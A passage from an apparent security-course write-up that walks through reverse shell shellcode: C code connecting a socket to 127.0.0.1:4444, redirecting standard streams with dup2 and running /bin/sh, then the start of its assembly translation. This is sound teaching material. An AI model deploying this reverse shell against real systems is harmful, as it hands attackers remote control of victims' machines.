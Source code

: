 	peer.sin_port 	= htons(DPORT); 
	peer.sin_addr.s_addr = inet_addr(IP); 

	sfd = socket(AF_INET, SOCK_STREAM, 0);
	ret = connect(sfd, (const struct sockaddr *)&peer, sizeof(struct sockaddr_in));

	if ( ret == 0 ) {
		dup2(sfd, 0);
		dup2(sfd, 1);
		dup2(sfd, 2);
		execve((const char *)"/bin/sh", NULL, NULL);
		return 0;
	} 

	return -ret;
}


{% endhighlight %}

## PoC analysis

For all consideration and analysis about socket(), dup2() and execve() system
call please make sure to read the write-up for the [first
assignement](https://codiceinsicuro.it/slae/assignment-1-create-a-bind-shellcode/),
about creating a bind shell shellcode.

In this assignement our protagonist is the connect() and a little trick to
handle null bytes in our shellcode.

### connect()

All the lights are on the connect call in this assignment. The connect() will
create a link on the socket descriptor obtained by socket() to the destination
IP address and destination TCP port specifie in the (struct sockaddr *) data
structure.

{%highlight c%}

memset(&peer, 0, sizeof(struct sockaddr));

peer.sin_family 	= AF_INET;
peer.sin_port 	= htons(DPORT); 
peer.sin_addr.s_addr = inet_addr(IP); 

sfd = socket(AF_INET, SOCK_STREAM, 0);
ret = connect(sfd, (const struct sockaddr *)&peer, sizeof(struct sockaddr_in));

{%endhighlight%}

In our sample IP address is "127.0.0.1", localhost and the destination port is 4444.
Translating into assembler, there is no real magic. The system call we need is
362, and we need to push into the stack, the IP address an the TCP port in
network byte order.

{%highlight asm%}

; Connect to my peer
; 
; connect() is defined as #define __NR_connect 362 on  /usr/include/i386-linux-gnu/asm/unistd_32.h
; peer.sin_family 	= AF_INET;
; peer.sin_port 	= htons(DPORT); 
; peer.sin_addr.s_addr = inet_addr(IP); 
; ret = connect(sfd, (const struct sockaddr *)&peer, sizeof(struct sockaddr_in));

; 127 = 0x7f
; 0   = 0x0 
; 0   = 0x0 
; 1   = 0x1

push 0x0100007f